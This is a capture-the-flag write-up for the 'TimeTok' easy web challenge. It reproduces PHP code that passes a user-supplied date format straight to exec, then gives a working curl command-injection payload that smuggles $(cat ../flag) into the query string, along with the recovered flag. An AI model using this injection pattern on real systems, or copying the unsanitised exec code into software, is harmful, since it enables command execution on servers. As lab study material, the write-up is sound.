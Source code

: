# TimeTok

### Overview
This challenge was a Web exploit challenge as a part of CyberHack 2023. This challenge was rated an easy challenge on Hackthebox.

### The Problem
Time is money. Money talks. ALWAYS stay up to date with the current time and date using our brand new service called TimeTok.

### Resources

https://twseptian.github.io/hackthebox/hackthebox%20business%20ctf%202021/ctf/htbbiz2021-time/

Major shoutout to Tri Wanda Septian, this writeup was a 1 for 1 copy of the web challenge TimeTok.
It is ironic, the greatest exploit for TimeTok wasn't the website, it was HTB re-using the challenge.

### Solution

When performing an nmap scan of the target (134.209.28.236:31321), we see that the target has 2 ports open, 80 and 31321. This nmap scan will provide little help for me, so I look towards the files the challenge was providing me with.

When looking at the file TimeController.php, I saw it was a 1 for 1 copy of the file Tri Wanda Septian provided in the resource above.

``````php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
``````

Along with the file TimeModel.php, it was a 1 for 1 copy.
``````php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
``````

Now knowing that HTB re-used the same challenge on a differently formatted website (that in itself is a vulnerability) I followed Tri Wanda Septian instructions, where he used the following command (I changed the IP address to match my own):
``````bash
curl 'http://134.209.28.236:31321/?format=%H-%M-%S-%27;$(cat%20../flag)%27' | html2text | grep HTB{
``````

Lets analyze the three parts of Tri Wanda Septian command
- curl: allows the transfer of data to and from the specified URL
- html2text: this allows HTML to be converted into readable characters
- grep HTB{: this command grabs the string of characters that contain "HTB{" (aka it pulls the flag)

After utilizing this command, the flag is given to me.

### TL;DR
Utilizing an online resouce by Tri Wanda Septian showed that HTB gave us a way to exploit the time call in the php function, allowing us to pull the flag from the HTML.

### Flag
HTB{tim3_t4lks ... 4nd_1t_s4ys_1ts_t1m3_t0_pwn}
(This flag is similar to the flag that Tri Wanda Septian provided, but not exactly the same)

